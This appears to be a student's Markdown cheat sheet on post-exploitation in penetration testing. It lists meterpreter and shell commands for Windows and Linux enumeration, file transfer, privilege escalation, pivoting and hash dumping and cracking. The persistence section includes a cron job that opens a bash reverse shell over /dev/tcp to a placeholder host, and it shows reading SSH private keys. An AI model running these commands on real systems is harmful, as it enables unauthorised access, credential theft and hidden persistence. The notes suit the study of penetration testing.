

Final phase of the penetration testing process and is the set of techniques undertake after gaining initial access on a target.
- Privilege escalation
- Persistence
- Clearing tracks


# Methdology

## Windows

1. Local enumeration
    - System information
        - Hostname
        - OS name
        - OS build & service pack
        - Architecture (x64/x86)
        - Updates and hotfixes
        ```
        meterpreter> getuid
        meterpreter> sysinfo
        meterpreter> shell
        shell> hostname
        shell> systeminfo
        shell> wmic qfe get Caption,Description,HotfixID,InstalledOn
        shell> cd C:\\Windows\System32\eula.txt #end-user license agreement
        ```
    - Users and groups
        - Current user and privs
        - Additional info
        - Other users
        - Groups
        - Members of administrator group
        ```
        meterpreter> getuid
        meterpreter> getprivs
        search logged_on
        shell> whoami
        shell> whoami /priv
        shell> query user <user>
        shell> net users
        shell> ner user <username>
        shell> net localgroup
        shell> net localgroup <user>
        ```
    - Network information
        - Current ip
        - Internal networks
        - TCP & UDP services
        - Other hosts on the network
        - Routing table
        - Firewall state
        ```
        shell> ipconfig
        shell> ipconfig /all
        shell> route print
        shell> arp -a
        shell> netstat -ano
        shell> netsh firewall show state
        shell> netsh advfirewall help
        shell> netsh advfirewall dump
        shell> netsh advfirewall show allprofiles
        ```
    - Services
        - Running processes
        - Scheduled tasks
        **Note** process  is an instance of a running exe and service is a process which runs in the background and does not interact with the desktop
        ```
        meterpreter> ps
        meterpreter> pgrep <process>
        meterpreter> migrate <number process>
        shell> net start
        shell> wmic service list brief
        shell> tasklist /SVC
        shell> schtasks /query /fo LIST
        ```
    - Automating local enumeration
        1. Open text editor
        2. Copy Jaws script
        3. Paste on jaws script
        4. Save it in temp directory on the target machine
        5. `meterpreter> upload <path to jaws>`
        6. `powershell.exe -ExecutionPolicy Bypass -File .\<file.ps1> -OutputFilename <file.txt>`


## Linux

1. Local enumeration
    - System information
        - Hostname
        - Distribution
        - Kernel version and arch
        - CPU info
        - Disk info and mounted drives
        - Installed packages
        ```
        meterpreter> getuid
        meterpreter> sysinfo
        meterpreter> shell
        shell> uname -a #kernel version + info
        shell> uname -r #kernel version
        shell> env #env variables
        shell> lscpu #arch
        shell> df -h #file system
        shell> df -ht ext4 #file extensios
        shell> lsblk | grep sd #partitions and storage
        shell> dpkg -l #installed packages
        ```
    - Users and groups
        - Current user and privs
        - Additional info
        - Other users
        - Groups
        - Members of administrator group
        
        ```
        meterpreter> getuid
        meterpreter> getprivs
        search logged_on
        bash> whoami
        bash> cat /etc/passwd
        bash> cat /etc/passswd | grep -v /nologin
        bash> useradd -m <name> -s <type of shell: /bin/bash o /nologin>
        bash> groups
        bash> groups <user>
        bash> usermod -aG <groups> <name>
        bash> who
        bash> last
        bash> lastlog
        ```
    - Network information
        - Current ip
        - Internal networks
        - TCP & UDP services
        - Other hosts on the network
        - Routing table
        - Firewall state
        ```
        bash> ifconfig
        shell> route print
        shell> arp -a
        shell> netstat -ano
        bash> cat /etc/networks
        bash> cat /etc/hostname
        bash> cat /etc/hosts
        bash> cat /etc/resolv.conf
        ```
    - Services
        ```
        bash> ps aux | grep <root>
        bash> top
        bash> crontab -l
        bash> ls -al /etc/cron*
        bash> cat /etc/cron*
        bash> cat /etc/shells
        ```
    - Automating local enumeration
        ```
        search cgi_bash_env
        search enum_configs
        search enum_network
        search enum_system
        search checkvm
        ```
        - LinEnum
            1. Open text editor
            2. Copy LinEnum script
            3. Paste on script
            4. Save it in temp directory on the target machine
            5. `chmod +x <file.sh>`
            5. `./<file.sh>`

2. Transfering files
    - Setting uo a we server with python
    `python3 -m http.server 80`
    - Windows to Linux
    `certutil -urlcache -h http://`
    - Linux to Windows
    `wget http://`
3. Upgrading shells
    - Upgrading to meterpreter
    - Spawning TTY shells
4. Privilege escalation
    - PrivEsc vulnerabilities Windows
        `cd C:\Users\student\Desktop\PrivescCheck`
        `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
        ```
        search web_delivery
        set target PSH (Binary)
        set payload windows/shell/reverse_tcp
        set PSH_EncodedCommand false
        set lhost
        ----
        search shell_to
        set WIN_TRANSFER VBS
        powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
        ```
    - PrivEsc vulns Linux
        Linenum
5. Persistence
```
search persistence_service
-----
search multi_handler
```
Linux:
```
cd .shh
cat id_rsa
scp <user>@<ip>:<path to file> #download files via ssh
ssh -i id_rsa <>@<>
echo "* * * * * cd /home/student/ && python -m SimpleHTTPServer" > <name of cron file>
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'" > <name>
crontab -i <name of cron file>
crontab -l
```
6. Dumping hashes
    - Dumping and cracking 
    ```
    meterpreter> getprivs
    meterpreter> pgrep lsass
    meterpreter> migrate <>
    meterpreter> hashdump
    search crack_windows #if we have dumped the hashes 
    gzip -d <wordlist>
    john --format=<NT or NTLM> <file with hashses> --wordlist=<>
    hashcat -a 3 -m <number of hash type if NTLM then 1000> <file with hashes> <wordlist>
    hashcat -a 3 -m <1800 for sha512> <file with hashes> <wordlist>
    ```
7. Pivoting
    - Network recon
    - Pivoting
    ```
    run autoroute -s <target ip>
    search portscan
    portfwd add -l <> -p <> -r <>
    ```
8. Clearing tracks
